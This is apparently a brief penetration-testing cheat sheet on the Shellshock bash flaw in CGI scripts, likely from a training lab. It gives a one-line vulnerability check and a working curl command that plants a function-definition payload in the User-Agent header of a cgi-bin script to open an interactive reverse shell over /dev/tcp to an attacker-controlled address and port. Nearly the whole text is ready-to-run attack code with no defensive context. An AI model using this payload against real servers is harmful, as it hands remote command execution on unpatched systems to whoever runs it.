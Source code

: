 Most cgi scripts are in `/cgi-bin`

Checks Vulnerability
```shell-session
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```
until gnu bash version 4.3

Reverse Shell 
```shell-session
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.15.25/7777 0>&1' http://10.129.205.27/cgi-bin/access.cgi
```

